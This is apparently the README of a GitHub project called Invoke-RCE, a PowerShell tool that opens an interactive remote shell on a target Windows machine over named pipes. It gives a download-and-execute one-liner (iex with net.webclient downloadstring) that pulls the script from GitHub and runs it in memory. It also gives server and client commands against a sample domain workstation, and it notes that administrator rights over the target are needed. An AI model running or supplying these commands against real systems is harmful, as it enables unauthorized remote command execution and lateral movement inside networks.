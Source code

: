 # Invoke-RCE
A script to gain an interactive shell (Remote-Command-Execution) over a target system

Run the same script on the target and client system as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-RCE/main/Invoke-RCE.ps1')
```

### Server
```
Invoke-RCE -Server
```
```
Invoke-RCE -Server -PipeName Something
```

### Client

Note: The user you run the script as (client) needs to be administrator over the target system (server)

```
Invoke-RCE -Client -Target "Workstation-01.ferrari.local"
```
```
Invoke-RCE -Client -Target "Workstation-01.ferrari.local" -PipeName Something
```
![image](https://github.com/Leo4j/Invoke-RCE/assets/61951374/12d296ab-aa18-4897-9a28-ade999921d4a)
